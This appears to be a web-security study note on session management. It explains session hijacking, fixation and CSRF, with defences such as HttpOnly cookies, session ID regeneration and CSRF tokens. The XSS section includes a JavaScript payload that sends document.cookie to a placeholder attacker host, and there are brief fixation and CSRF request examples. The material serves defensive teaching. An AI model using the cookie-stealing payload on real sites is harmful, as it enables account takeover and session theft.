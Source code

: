 
# Session Security

## Weaknesses of the session identifier

Most web applications offer a login page and need to keep track of user sessions. The main reason is to stop users logging in everytime they use the web app.

HTTP is a stateless protocol, cookies where added to the browser to allow for stateful communication and session management.

## Session identifier

The session identifier is the unique key that identifies a user session within a database of sessions.

It is critical that the session management mechanism stops users impersonating each other. Strong session identifiers are ID's thar are:

* valid for a single session only
* time limited
* purely random (thus unpredictable)

Never store session tokens in...

* URL's
* HTML
* HTML5 Web Storage
  - localStorage
  - sessionStorage

## Session Hijacking

Session Hijacking refers to the exploitation of a valid session assigned to a user. An attacker gains a victims session identifier using mitm or xss.

## Session Hijack attacks

Session HiJack attacks can occur when:

* exploiting existing XSS
* Gaining direct access to the sessions on the server
* packet sniffing
* finding session IDs in logs or browser history

## Session hijack via XSS

This is possible when:

* xss vulnerabilities exist which you can execute your own payload
* the session id is sent through cookies in each HTTP request
* cookies are readable by javascript

```js
var i = new Image();
i.src = "http://attack.machine/steal.php?q="%2bdocument.cookie;
```

The *HTTPONLY* flag disabled cookie access from javascript. This will prevent this attack from working.

```
ini_set('session.cookie_httponly', '1');
```

## Session hijack via packet sniffing

* victim HTTP traffic can be sniffed
* HTTP traffic must be unencrypted

## Session Fixation

Session fixation is session hijacking technique whereby an attacker forces a victim to use a certain sessionID.

* attacker obtains a valid sessionID
* attacker forces victim to use this sessionID when establishing a connection to the server.

* the session identifier remains the same after login or other operation
* the session identifier can be propagated

eg.

```
http://sessionfixation.site/login.php?SESSION=ABC
```

## Remediation

Always generate a new session ID after login... and do not allow the user to set their own session ID.

http://php.net/manual/en/function.session-regenerate-id.php

.NET example

```
Session.Abandon();
Response.Cookies.Add(new HTTPCookie("ASP.NET_SessionId", ""))
```

http://web.archive.org/web/20130328004438/http:/support.microsoft.com/kb/899918

## Cross Site Request Forgery (CSRF)

CSRF or XSRF attacks (pronounced Sea-Surf attacks) are hard to discover using automated tools.

A CSRF is a vulnerability where a third party web app is able to perform an action on the users behalf.

## Example

* bob visits shop.com logs in and leaves without logging out
* bob then visits malicious.com which makes a request to shop.com (to buy a book)
* it works because shop.com thinks its a legitimate request from bob.

```
<html>
<img src="http://shop.com/buy/123" />
</html>
```

* http://thehackernews.com/2014/08/flickr-cross-site-request-forgery.html
* http://web.archive.org/web/20150418174949/http:/breakingbits.net/2015/01/18/taking-over-godaddy-accounts-using-csrf/
* http://www.ehackingnews.com/2012/10/hacker-news-csrf-vulnerability-in-Twitter.html

Using cookies for session management allows CSRF to work... if you use URLs that enables other exploits.

## Remediations

* Tokens (CSRF tokens)
* Captchas

A CSRF token is a nonce that must be used with the page request. If an attacker omits the nonce from the request the server can disregard it. The attacker should not be able to guess the token so it must be sufficiently random.

* generate a token.
* include token as a hidden input on the form
* save the token in the session variables

## References

* https://www.owasp.org/index.php/HttpOnly
* http://php.net/manual/en/function.session-regenerate-id.php
* http://web.archive.org/web/20130328004438/http:/support.microsoft.com/kb/899918
* http://joomlacode.org/gf/project/joomla/frs/?action=FrsReleaseBrowse&frs_package_id=1
* http://tomcat.apache.org/tomcat-6.0-doc/config/manager.html
* http://docs.oracle.com/javaee/6/api/javax/servlet/http/HttpServletRequest.html
* http://joomlacode.org/gf/project/joomla/scmsvn/?action=browse&path=/development/releases/1.0/
* http://shiflett.org/blog/2007/jul/csrf-redirector
